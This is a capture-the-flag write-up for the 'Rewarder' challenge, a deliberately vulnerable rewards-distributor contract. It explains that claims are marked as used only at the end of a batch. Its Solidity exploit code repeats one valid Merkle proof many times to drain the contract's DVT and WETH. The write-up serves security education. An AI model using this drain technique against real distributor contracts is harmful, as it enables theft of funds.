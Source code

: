# The Rewarder

A contract is distributing rewards of Damn Valuable Tokens and WETH.

To claim rewards, users must prove they're included in the chosen set of beneficiaries. Don't worry about gas though. The contract has been optimized and allows claiming multiple tokens in the same transaction.

Alice has claimed her rewards already. You can claim yours too! But you've realized there's a critical vulnerability in the contract.

Save as much funds as you can from the distributor. Transfer all recovered assets to the designated recovery account.


Let me break down this solution step by step to help you understand it clearly.

1. First, let's understand the vulnerability:
```solidity
// Inside claimRewards function
for (uint256 i = 0; i < inputClaims.length; i++) {
    // ... other code ...

    // This is the key vulnerability - marks claims as used only at the end
    if (i == inputClaims.length - 1) {
        if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
    }
}
```

The critical flaw is that the contract only marks claims as "used" at the very end of processing all claims in the array. This means we can submit multiple valid claims in one transaction, and they'll all process before any are marked as used.

2. Understanding the player's valid claim amounts:
```solidity
uint PLAYER_DVT_CLAIM_AMOUNT = 11524763827831882;  // Amount player can legitimately claim of DVT
uint PLAYER_WETH_CLAIM_AMOUNT = 1171088749244340;  // Amount player can legitimately claim of WETH
```

3. Calculating how many times we can repeat the claims:
```solidity
uint dvtTxCount = TOTAL_DVT_DISTRIBUTION_AMOUNT / PLAYER_DVT_CLAIM_AMOUNT;
uint wethTxCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / PLAYER_WETH_CLAIM_AMOUNT;
uint totalTxCount = dvtTxCount + wethTxCount;
```
This calculates how many times we need to repeat the claim to drain the entire contract.

4. Setting up the tokens array:
```solidity
IERC20[] memory tokensToClaim = new IERC20[](2);
tokensToClaim[0] = IERC20(address(dvt));  // DVT token
tokensToClaim[1] = IERC20(address(weth)); // WETH token
```

5. Creating the exploit claims array:
```solidity
Claim[] memory claims = new Claim[](totalTxCount);

for (uint i = 0; i < totalTxCount; i++) {
    if (i < dvtTxCount) {
        // Create DVT claims
        claims[i] = Claim({
            batchNumber: 0,
            amount: PLAYER_DVT_CLAIM_AMOUNT,
            tokenIndex: 0,
            proof: merkle.getProof(dvtLeaves, 188) // Player's index is 188
        });
    } else {
        // Create WETH claims
        claims[i] = Claim({
            batchNumber: 0,
            amount: PLAYER_WETH_CLAIM_AMOUNT,
            tokenIndex: 1,
            proof: merkle.getProof(wethLeaves, 188) // Player's index is 188
        });
    }
}
```
This creates an array where we repeat the same valid claim multiple times:
- First part of array: Multiple DVT claims
- Second part of array: Multiple WETH claims
- Each claim uses the same valid Merkle proof for player (index 188)

6. Executing the exploit:
```solidity
distributor.claimRewards({
    inputClaims: claims,
    inputTokens: tokensToClaim
});
```
When this executes:
1. All claims are processed in sequence
2. Each claim passes the Merkle proof check (they're valid claims)
3. The contract transfers tokens for each claim
4. Only at the very end does it try to mark claims as used
5. By then, we've already received all the tokens!

7. Finally, transfer to recovery:
```solidity
dvt.transfer(recovery, dvt.balanceOf(player));
weth.transfer(recovery, weth.balanceOf(player));
```

The key insight is:
- We only need one valid claim proof
- We can repeat this valid claim many times in a single transaction
- The contract transfers tokens before marking claims as used
- Therefore, we can drain the contract using just one valid claim repeated many times


